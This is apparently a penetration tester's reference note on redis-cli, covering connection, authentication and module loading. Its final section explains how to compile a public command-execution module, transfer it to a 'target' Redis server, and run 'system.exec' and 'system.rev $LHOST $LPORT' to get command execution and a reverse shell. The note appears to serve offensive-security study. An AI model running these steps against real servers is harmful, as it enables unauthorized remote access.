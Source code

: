 # redis-cli

> A terminal program used to send commands to and read replies from a [[redis|Redis]] server.

---

## Connect to a Redis Server & Drop Into REPL

```bash
redis-cli [-h $FQDN_OR_IP] [-p $PORT] [-a $PASSWORD]
```

- Without `-h`, `$FQDN_OR_IP` defaults to `127.0.0.1`
- Without `-p`, `$PORT` defaults to `6379`
- If necessary, `$PASSWORD` can be provided by the `$REDISCLI_AUTH` environment variable

---

## Connect to a Redis Server & Execute Commands Non-Interactively

### Single Command

```bash
redis-cli [-h $FQDN_OR_IP] [-p $PORT] [-a $PASSWORD] $COMMAND
```

- Without `-h`, `$FQDN_OR_IP` defaults to `127.0.0.1`
- Without `-p`, `$PORT` defaults to `6379`
- If necessary, `$PASSWORD` can be provided by the `$REDISCLI_AUTH` environment variable

### Multiple Commands from File

```bash
redis-cli [-h $FQDN_OR_IP] [-p $PORT] [-a $PASSWORD] < $PATH_TO_COMMAND_FILE
```

- Without `-h`, `$FQDN_OR_IP` defaults to `127.0.0.1`
- Without `-p`, `$PORT` defaults to `6379`
- If necessary, `$PASSWORD` can be provided by the `$REDISCLI_AUTH` environment variable

---

## (REPL) Authenticate

```txt
AUTH [$USERNAME] $PASSWORD
```

A successful authentication will result in the response `OK`.

---

## Redis Modules

Modules can be used to extend Redis's functionality. Read more about them [here](https://redis.io/docs/reference/modules/).

### (REPL) Load Module

```txt
MODULE LOAD $PATH_TO_MODULE
```

### (REPL) List Modules

```txt
MODULE LIST
```

### Command Execution & Reverse Shell Module

Clone the `n0b0dyCN`'s repository from [here](https://github.com/n0b0dyCN/RedisModules-ExecuteCommand).

Change into the directory and compile the module with `make`.

[[file-transfer/file-transfer|Transfer the module]] (`module.so`) to the target and [[redis-cli#(REPL) Load Module|load it]] into the current REPL. [[redis-cli#(REPL) List Modules|Ensure the module was loaded successfully]].

Execute a command:

```txt
system.exec "$COMMAND"
```

Initiate a reverse shell:

```txt
system.rev $LHOST $LPORT
```

---

## References

[Redis CLI - Redis Docs](https://redis.io/docs/manual/cli/)
